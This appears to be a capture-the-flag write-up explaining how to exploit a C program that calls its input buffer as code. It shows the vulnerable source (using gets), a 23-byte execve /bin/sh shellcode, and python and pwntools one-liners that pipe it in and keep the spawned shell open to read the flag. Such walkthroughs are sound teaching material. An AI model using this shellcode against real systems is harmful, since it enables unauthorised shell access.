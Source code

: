 This is the first challenge that may need some work. 
The vlun.c program read an input to a buffer `buf` then call it as a function `((void(*)())buf)()`.
To exploit this vlunerability we need to provide input as a shellcode ( a code that's already in machine language), 
because CPU will access it directly.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

The shellcode can be for any desire command but for this challenge it asks for shell, so we will search for a shellcode and provide
it as an input. 

This is a 23 bytes shellcode from shell-strom by Hamza Megahed [here](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
$ python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'|.vlun
or 
$ python -c 'import pwn; print(pwn.shellcraft.linux.sh())'|.vlun
```

We can see that the shell has been invoked but inside vlun, and we lost the interaction with it. 
So we need to keep the interaction with it, John Hammond did that using cat [here](https://www.youtube.com/watch?v=Nn0fUJuQEsk&list=PL1H1sBF1VAKUmJio8DWjY0tHLwf3bl2ku&index=6). 
```
$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")';cat)|.vlun
```
simply then cat the flag.txt.

